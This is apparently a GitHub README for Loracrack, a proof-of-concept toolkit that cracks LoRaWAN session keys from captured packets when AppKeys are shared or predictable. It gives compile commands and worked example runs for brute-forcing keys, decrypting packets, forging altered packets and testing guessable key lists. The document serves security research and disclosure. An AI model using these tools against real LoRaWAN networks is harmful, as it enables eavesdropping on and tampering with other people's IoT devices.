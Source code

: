 ## Loracrack - LoRaWAN session cracker
##### A PoC for exploiting weak or shared Application Keys
Created by Sipke Mellema, modified by Vincent Lopes & Julien Fink of digital.security

This is a Proof-of-Concept for demonstrating the dangers of using the same AppKey on multiple LoRaWAN nodes.

This repository holds a toolbox for cracking LoRaWAN session keys (AppSKey and NwkSKey) from captured packets. The attack scenario assumes you know the AppKey but missed the handshake. Or the AppKeyAppSKey/NwkSKey isn't random and can be guessed.

LoRa handshakes use three values to generate the session keys:
`AppNonce | NetID | DevNonce`
AppNonce and NetID are 3 bytes, and DevNonce is 2 bytes. Part of the NetID is known, so that leaves 57-bit entropy. And because of implementation flaws this can get way lower.

### Compiling and usage
Just `make` it. Note that you may have to link to an openssl 1.1.* location in the Makefile.

### Overview of tools

#### loracrack
`./loracrack -k <AppKey in hex> -p <raw_packet in hex> -v <0, 1 or 2>`

Cracks session keys if handshake (join-accept) is missed but AppKey is known. Cracking is done by generating session keys and checking the MIC.

```$ gcc loracrack.c includes/*.c -o loracrack -lpthread -lcrypto -O3
$ ./loracrack -k 88888888888888888888888888888888 -p 400267bd018005000142d9f48c52ea717c57 -v 1

4899be88e40088c40abc703fa3ba1195 04068f88b9feee5385c67e033d911b4a
```
```
Optional arguments:
	-t threads
	-v verbose (0, 1 or 2)
	-m maximum AppNonce
```

#### loracrack_knownpt
`./loracrack_knownpt -k <AppKey in hex> -p <raw_packet in hex> -d <plain_text in hex> -v <0, 1 or 2>`

Cracks session keys if handshake (join-accept) is missed but AppKey and plaintext are known. Cracking is done by decrypting the FRMPayload and checking the plaintext. It's faster than checking the MIC, since the CMAC uses more AES operations.

```$ gcc loracrack_knownpt.c includes/*.c -o loracrack_knownpt -lpthread -lcrypto -O3
$ ./loracrack_knownpt -k 88888888888888888888888888888888 -p 400267bd018005000142d9f48c52ea717c57 -d 33302e3332 -v 0

4899be88e40088c40abc703fa3ba1195 04068f88b9feee5385c67e033d911b4a
```
```
Optional arguments:
	-t threads
	-v verbose (0, 1 or 2)
	-m maximum AppNonce
```

#### loracrack_decrypt
`./loracrack_decrypt -k <decrypt key in hex> -p <raw_packet in hex>`

Decrypts packet data if session key is known.

```$ gcc loracrack_decrypt.c includes/*.c -o loracrack_decrypt -lcrypto -O3
$ ./loracrack_decrypt -k 4899be88e40088c40abc703fa3ba1195 -p 400267bd018005000142d9f48c52ea717c57

33302e3332
```

#### loracrack_alterpacket
`./loracrack_alterpacket -p <raw_packet in hex> -a <AppSKey in hex> -n <NwkSKey in hex> -c <Fctn> -d <new data in hex>`

Alters packet with new data, keeps old things like DeviceAddr.

```$ gcc loracrack_alterpacket.c includes/*.c -o loracrack_alterpacket -O3 -lcrypto
$ ./loracrack_alterpacket -p 400267bd018005000142d9f48c52ea717c57 -a 4899be88e40088c40abc703fa3ba1195 -n 04068f88b9feee5385c67e033d911b4a -c 5 -d 33302d3332

400267bd018005000142d9f78c521c78573b
```

#### loracrack_genkeys
`./loracrack_genkeys -k <AppKey in hex> -j <join_packet in hex> -a <accept_packet in hex> -v <0 or 1>`

Generates session keys given handshake (join and accept packets) and AppKey.

```$ gcc loracrack_genkeys.c includes/*.c -o loracrack_genkeys -lcrypto -O3
$ ./loracrack_genkeys -k 88888888888888888888888888888888 -j 0000000000000000002bd61f000ba304000e1ba147157a -a 20adf6e18980952590fc1f7987a6913f35 -v 0

4e1dcaf4f02fcd2ecbb1cb0d138fc53d 96eb9e13f0a3468ca580707ee688ee19
```
```
Optional arguments:
	-v verbose (0, 1)
```

#### loracrack_guessjoin
`./loracrack_guessjoin -p <raw_packet in hex> -f <file with AppKeys in hex> -v <0, 1 or 2>`

Checks if predictable AppKeys are used by checking the MIC on a join packet. AppKeys are taken from a file with hex-encoded AppKeys on new lines.

```$ gcc loracrack_guessjoin.c includes/*.c -o loracrack_guessjoin -lcrypto -O3
$ ./loracrack_guessjoin -p 0000000000000000002bd61f000ba304002f3b5785cf80 -f simplekeys -v 0

88888888888888888888888888888888
```
```
Optional arguments:
	-v verbose (0, 1, 2)
```

#### loracrack_testNwkSKeys
`./loracrack_testNwkSKeys -p <raw_packet in hex> -f <file with NwkSKeys in hex> -v <0 or 1>`

Checks if predictable NwkSKeys are used by checking the MIC on a packet. NwkSKeys are taken from a file with hex-encoded NwkSKeys on new lines.

```$ gcc loracrack_testNwkSKeys.c includes/*.c -o loracrack_testNwkSKeys -lcrypto -O3 -Wall -ldl
$ ./loracrack_testNwkSKeys -p 40F17DBE4900020001954378762B11FF0D -f simplekeys -v 0

MIC matches with possible NwkSKey --> 44024241ed4ce9a68c6a8bc055233fd3
```
```
Optional arguments:
	-v verbose (0, 1)
```